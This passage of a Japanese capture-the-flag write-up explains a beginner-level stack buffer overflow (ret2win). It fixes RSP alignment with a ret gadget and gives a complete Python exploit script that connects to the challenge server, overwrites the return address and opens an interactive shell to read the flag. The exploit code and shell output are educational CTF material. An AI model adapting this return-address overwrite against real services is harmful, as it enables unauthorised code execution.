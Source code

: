 ```python
payload += b'\n
```
`vuln`のrbpの値は適当に値を入れていますが，40バイト目以降に`win`のアドレスを書き込んでいます．
これで実行すると，スタックの内容が書きかわり，以下のようなメッセージが出力されました．
> Oops! RSP is misaligned!
Some functions such as `system` use `movaps` instructions in libc-2.27 and later.
This instruction fails when RSP is not a multiple of 0x10.
Find a way to align RSP! You're almost there!

`system`を呼び出すためにはRSPの値が`0x10`の倍数でないといけないようです．はて？という感じでしたが，とにかくRSPを揃えるには関数を呼び出す時と終了する際に何かしら手を加える必要がありそうです．
ここで，`win`のアドレスに飛ばす前に一度`ret`を噛ませてrspを揃えてみます．
組み立てたペイロードは以下のような感じ．
```python
payload = b'a' * 32
payload += (0x7fff6858b810).to_bytes(8, 'little') # '\x10\xb8\x58\x68\xff\x7f\x00\x00'
payload += (0x4007f0).to_bytes(8, 'little') # '\xf0\x07\x40\x00\x00\x00\x00\x00'
payload += (0x400861).to_bytes(8, 'little') # '\x61\x08\x40\x00' + '\x00' * 4
payload += b'\n'
```
`win`のアドレスに飛ぶ前に'vuln'から復帰する時に呼び出される`ret`のアドレスに一度飛ばします．そうすると，`ret`はスタックをpopしてそのアドレスに飛ぶので，その時点でのスタックの一番上である`ret`のアドレスの直後に`win`のアドレスを書き込みます．
こうすることでRSPが揃った状態で`system`を呼び出すことができるようになります．
exploitコードの全体は以下．
```python
import socket, time, telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('bs.quals.beginners.seccon.jp', 9001))

time.sleep(1)

print(s.recv(2048).decode())

payload = b'a' * 32
payload += (0x7fff6858b810).to_bytes(8, 'little') # '\x10\xb8\x58\x68\xff\x7f\x00\x00'
payload += (0x4007f0).to_bytes(8, 'little') # '\xf0\x07\x40\x00\x00\x00\x00\x00'
payload += (0x400861).to_bytes(8, 'little') # '\x61\x08\x40\x00' + '\x00' * 4
payload += b'\n'

print("payload: ", payload)

s.sendall(payload)

time.sleep(1)
print(s.recv(4096).decode())

t = telnetlib.Telnet()
t.sock = s

t.interact()
```
実行すると，これまでと同様にスタックの内容が表示された後Congratulations!が表示されシェルをとることができました．
```
Congratulations!

ls
chall
flag.txt
redir.sh
```
あとは`ls`,`cat flag.txt`でフラグが得られました．
余談ですが，僕はMacの方は`python`で`python3`が実行されるようにエイリアスしているのですが，解析に使用したVMでは`python`コマンドを叩くと実行されるのは`python3`なんです．VMではローカルで実行しながら解析してpython2でペイロード流していたんですが，ncでリモートに繋ぐ時はMacのターミナルからしていたのでpythonのバージョンが違っているままリモートに実行してしまいエクスプロイトが通りませんでした．すごいありがちなミスですがこれに気づくのに結構時間潰したのでpythonのバージョンには皆さんも気をつけてください．(戒め)
